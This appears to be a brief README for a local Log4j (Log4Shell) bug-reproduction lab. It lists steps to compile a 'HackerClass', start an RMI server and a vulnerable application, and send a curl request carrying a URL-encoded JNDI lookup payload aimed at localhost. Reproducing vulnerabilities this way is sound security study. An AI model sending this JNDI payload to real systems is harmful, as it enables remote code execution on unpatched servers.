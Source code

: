 # bug 复现项目

[toc]


## 启动

### 启动静态服务器
```shell
cd ./simple-server
javac HackerClass.java
go run main.go
```

### 启动 java 类

- RMIServer#main
- L4jbugApplication#main


### 输入指令

```shell
curl 'localhost:8888?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A1099%2FHackerClass%7D'
```

お疲れました